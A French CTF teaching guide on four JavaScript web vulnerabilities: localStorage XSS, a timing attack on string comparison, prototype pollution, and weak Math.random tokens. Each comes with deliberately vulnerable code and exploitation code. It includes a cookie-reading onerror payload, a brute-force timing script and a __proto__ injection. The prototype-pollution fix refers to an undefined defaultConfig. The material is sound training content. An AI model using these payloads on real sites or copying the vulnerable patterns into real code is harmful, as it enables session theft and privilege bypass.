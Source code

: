 # Vulnérabilités JavaScript pour CTF

Ce guide présente des vulnérabilités web JavaScript courantes, parfaites pour un CTF hébergé sur GitHub Pages. Chaque section contient le code vulnérable, l'explication détaillée et la méthode d'exploitation.

## 1. Injection JavaScript via localStorage

### Code Vulnérable
```javascript
function displayLastSearch() {
    let lastSearch = localStorage.getItem('lastSearch');
    document.getElementById('searchHistory').innerHTML = `
        Dernière recherche : ${lastSearch}
    `;
}
```

### Explication
Cette fonction récupère une valeur de localStorage et l'insère directement dans le DOM en utilisant innerHTML. Comme le contenu n'est pas assaini, un attaquant peut injecter du HTML malveillant qui sera exécuté lors de l'affichage.

### Exploitation
1. Ouvrir la console du navigateur
2. Injecter du code malveillant dans localStorage:
```javascript
localStorage.setItem('lastSearch', '<img src=x onerror="alert(document.cookie)">');
```
3. Lors du prochain chargement de la page, le code sera exécuté

### Solution Sécurisée
```javascript
function secureDisplayLastSearch() {
    let lastSearch = localStorage.getItem('lastSearch');
    document.getElementById('searchHistory').textContent = lastSearch;
}
```

## 2. Timing Attack sur Comparaison de Chaînes

### Code Vulnérable
```javascript
async function compareSecret(userInput) {
    const secret = "CTF_SECRET_FLAG_2024";
    if (userInput.length !== secret.length) return false;
    
    for (let i = 0; i < secret.length; i++) {
        if (userInput[i] !== secret[i]) return false;
        await new Promise(resolve => setTimeout(resolve, 50));
    }
    return true;
}
```

### Explication
Cette fonction compare un input utilisateur avec un secret caractère par caractère. Le délai artificiel rend l'attaque plus évidente, mais même sans lui, la comparaison caractère par caractère crée une différence de timing mesurable.

### Exploitation
```javascript
async function timingAttack() {
    const charset = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789';
    let flag = '';
    
    for (let position = 0; position < 16; position++) {
        let maxTime = 0;
        let likelyChar = '';
        
        for (const char of charset) {
            const testFlag = flag + char + 'A'.repeat(15 - position);
            const startTime = performance.now();
            await compareSecret(testFlag);
            const endTime = performance.now();
            const duration = endTime - startTime;
            
            if (duration > maxTime) {
                maxTime = duration;
                likelyChar = char;
            }
        }
        flag += likelyChar;
        console.log(`Position ${position}: Found ${likelyChar} (Flag so far: ${flag})`);
    }
}
```

## 3. Prototype Pollution via Configs

### Code Vulnérable
```javascript
function mergeConfig(userConfig) {
    const defaultConfig = {
        theme: 'light',
        language: 'fr'
    };
    return Object.assign({}, defaultConfig, JSON.parse(userConfig));
}
```

### Explication
Cette fonction fusionne une configuration utilisateur avec des valeurs par défaut. En ne validant pas l'entrée JSON, elle permet à un attaquant de polluer le prototype d'Object et d'injecter des propriétés malveillantes qui affecteront tous les objets.

### Exploitation
1. Créer un payload qui cible le prototype:
```javascript
const maliciousConfig = '{"__proto__": {"isAdmin": true}}';
mergeConfig(maliciousConfig);

// Maintenant, tout nouvel objet aura isAdmin = true
console.log({}.isAdmin); // true
```

2. Impact: Si l'application vérifie les privilèges avec `config.isAdmin`, la pollution permet de bypasser la sécurité

### Solution Sécurisée
```javascript
function secureConfig(userConfig) {
    const config = JSON.parse(userConfig);
    if ('__proto__' in config) {
        throw new Error('Prototype pollution detected');
    }
    return Object.assign({}, defaultConfig, config);
}
```

## 4. Weak Random Token Generation

### Code Vulnérable
```javascript
function generateSessionToken() {
    return Math.random().toString(36).substring(2);
}
```

### Explication
Cette fonction utilise Math.random() pour générer des tokens de session. Math.random() n'est pas cryptographiquement sûr et peut être prédit si on collecte suffisamment d'échantillons.

### Exploitation
```javascript
// Collecte de tokens
const tokens = [];
for(let i = 0; i < 1000; i++) {
    tokens.push(generateSessionToken());
}

// Analyse des patterns et prédiction des prochains tokens
function predictNextToken(tokens) {
    // L'implémentation dépend du PRNG utilisé par le navigateur
    // Mais Math.random() suit souvent des patterns prévisibles
    // après suffisamment d'observations
}
```

### Solution Sécurisée
```javascript
function secureGenerateToken() {
    const array = new Uint32Array(4);
    crypto.getRandomValues(array);
    return Array.from(array, x => x.toString(16)).join('');
}
```

## Ressources Additionnelles

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Web Security Academy](https://portswigger.net/web-security)
- [Google Web Security Guide](https://developers.google.com/web/fundamentals/security)